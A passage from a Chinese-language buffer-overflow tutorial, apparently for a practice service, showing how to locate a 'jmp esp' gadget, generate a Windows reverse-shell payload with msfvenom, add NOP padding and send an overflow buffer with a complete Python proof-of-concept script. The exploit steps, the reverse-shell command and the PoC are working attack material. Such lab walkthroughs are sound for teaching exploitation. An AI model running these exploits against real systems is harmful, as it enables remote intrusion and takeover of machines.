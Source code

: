 ```
!mona jmp -r esp -cpb "\x00"
```

或者使用 [ROPGadget](https://github.com/JonathanSalwan/ROPgadget)。

```
ROPgadget.py --binary <file> |grep 'jmp esp'
```

该命令找到所有地址不包含任何指定的坏字符的 "jmp esp"（或同等的）指令。结果应该显示在 "log "窗口中（如果需要，使用窗口菜单切换到它）。

选择一个地址并更新你的exploit.py脚本，将 "retn "变量设置为该地址，倒着写（因为系统是小字节）。例如，如果地址是Immunity中的\x01\x02\x03\x04，在你的漏洞中写成\x04\x03\x02\x01。

### **6.生成payload**

在Kali上运行下面的msfvenom命令，使用你的Kali VPN IP作为LHOST，并在-b选项中更新你确定的所有坏字符（包括\x00）。

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b <badchar> -f c
```

或者你也可以使用 -f python，如果你宁愿简单地做事。我使用十六进制格式，因为它更容易转换为原始二进制文件，并且可以用于其他目的.

复制生成的C代码字符串，并使用以下符号将其整合到你的exploit.py脚本有效载荷变量中。

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

### **7.前置NOP**

由于可能使用了编码器来生成有效载荷，你需要在内存中留出一些空间，以便有效载荷自己解压。你可以通过将填充变量设置为16个或更多 "Nop"（\x90）字节的字符串来做到这一点。

```
padding = "\x90" * 16
```

完整POC：

```python
import socket

ip = "192.168.199.129"
port = 9999

prefix = "GTER "
offset = 2056
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = "C" * (1500 - offset - len(retn) -len(padding))
#postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```